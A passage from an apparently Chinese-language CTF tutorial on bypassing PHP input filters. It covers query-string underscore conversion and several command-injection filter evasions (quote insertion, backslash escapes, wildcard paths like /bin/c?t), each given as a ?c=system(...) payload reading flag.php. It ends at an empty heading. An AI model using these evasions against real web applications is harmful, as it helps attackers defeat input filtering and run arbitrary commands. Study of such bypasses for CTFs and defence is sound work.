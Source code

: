 * 原始 query：`NI+SA+`
* PHP 解析：

  * `+` → 空格
  * 空格 → `_`

所以最终得到：

```
$_GET['NI_SA_'] = "txw4ever";
```

也就能够绕过针对_的黑名单过滤

---

# 五. 命令过滤

## 5.1 `''` 空字符匹配绕过
和文件名绕过一样，空字符串的可以用于绕过某些函数的过滤，`ta''c` 等价于 `tac`
```c
?c=system("ta''c flag.php")
```

## 5.2 `\` 匹配绕过
`\`是 转义字符，通常用于转义后面的字符，在某些情况下，`ta\c` 可能会被解释为 `tac`，即通过插入转义字符来避免直接匹配敏感词或绕过过滤
```c
?c=system("ta\c flag.php")
```

## 5.3 命令文件+`?`绕过

`cat`命令所在的路径是在`/bin/`目录下，所以这里相当于直接调用了`cat`文件执行命令，这里的`cat`可以看作命令，也是一个文件，所以通配符可以用在这上面，如果`bin`被过滤了也可以用通配符
记得`cat`要看源代码
```c
?c=/bin/c?t flag.php
?c=/?in/c?t flag.php
```

同理，`base64` 命令也可如此操作：
```c
?c=/bin/ba?e64 flag.php
```

## 5.4 换用其他命令

在第一部分有这么多函数，说不定有些没被过滤呢

---

# 六. 字母过滤
